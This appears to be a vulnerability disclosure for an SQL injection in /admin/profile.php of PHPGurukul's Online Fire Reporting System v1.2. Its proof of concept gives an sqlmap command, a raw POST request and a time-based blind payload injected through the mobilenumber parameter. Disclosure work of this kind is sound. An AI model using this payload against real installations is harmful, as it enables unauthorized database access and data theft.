 

# SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/profile.php

**vender**:

- [PHPGurukul](https://vuldb.com/?vendor.phpgurukul)
- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/profile.php

**Version**

- V1.2

### POC

```
sqlmap -r request.txt --level 5 --batch
```



```http
POST /admin/profile.php HTTP/1.1
Host: www.firereport.top
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Referer: http://www.firereport.top/admin/profile.php
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Origin: http://www.firereport.top
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Priority: u=0, i
Content-Length: 92

adminname=Admin&username=admin&email=admin%40admin.com&mobilenumber=1888888888&update=Update
```



```
---
Parameter: mobilenumber (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: adminname=Admin&username=admin&email=admin@admin.com&mobilenumber=1888888888' AND (SELECT 6253 FROM (SELECT(SLEEP(5)))zwZb)-- POPP&update=Update
---
```

![image-20250531221803766](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505312218876.png)